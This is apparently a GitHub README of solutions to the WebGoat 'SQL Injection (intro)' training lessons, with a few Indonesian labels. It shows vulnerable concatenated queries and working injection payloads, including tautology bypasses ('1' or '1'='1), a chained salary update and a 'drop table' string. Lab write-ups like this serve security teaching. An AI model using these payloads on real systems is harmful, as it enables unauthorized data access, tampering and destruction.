 # SQL Injection (intro)
## What is SQL?
```sh
select department from employees where first_name='Bob' and last_name='Franco'
```

## Data Manipulation Language (DML) 
```sh
update employees set department = 'Sales' where first_name='Tobi' and last_name='Barnett'
```

## Data Definition Language (DDL)
```sh
alter table employees add phone varchar(20)
```

## Data Control Language (DCL)
```sh
grant all on grant_rights to unauthorized_user
```

## Try It! String SQL injection
- **Query:** "SELECT * FROM user_data WHERE first_name = 'John' AND last_name = '" + lastName + "'";
- Opsi 1: '
- Opsi 2: or
- Opsi 3: '1' = '1

![alt text](https://github.com/rahardian-dwi-saputra/webgoat/blob/main/assets/wg%205.JPG)

## Try It! Numeric SQL injection
- **Query:** "SELECT * FROM user_data WHERE login_count = " + Login_Count + " AND userid = "  + User_ID;
- Login_Count: 1
- User_Id: 1 or 1=1

![alt text](https://github.com/rahardian-dwi-saputra/webgoat/blob/main/assets/wg%206.JPG)

## Compromising confidentiality with String SQL injection
- **Query:** "SELECT * FROM employees WHERE last_name = '" + name + "' AND auth_tan = '" + auth_tan + "'";
- Employee Name:
```sh
Smith
```
- Authentication TAN: 
```sh
1' or '1'='1
```

![alt text](https://github.com/rahardian-dwi-saputra/webgoat/blob/main/assets/wg%207.JPG)

## Compromising Integrity with Query chaining
- Employee Name:
```sh
Smith'; update employees set salary = 100000 where last_name='Smith' --
```
- Authentication TAN: 
```sh
3SL99A
```

![alt text](https://github.com/rahardian-dwi-saputra/webgoat/blob/main/assets/wg%208.JPG)

## Compromising Availability
- Action contains:
```sh
'; drop table access_log --
```

![alt text](https://github.com/rahardian-dwi-saputra/webgoat/blob/main/assets/wg%209.JPG)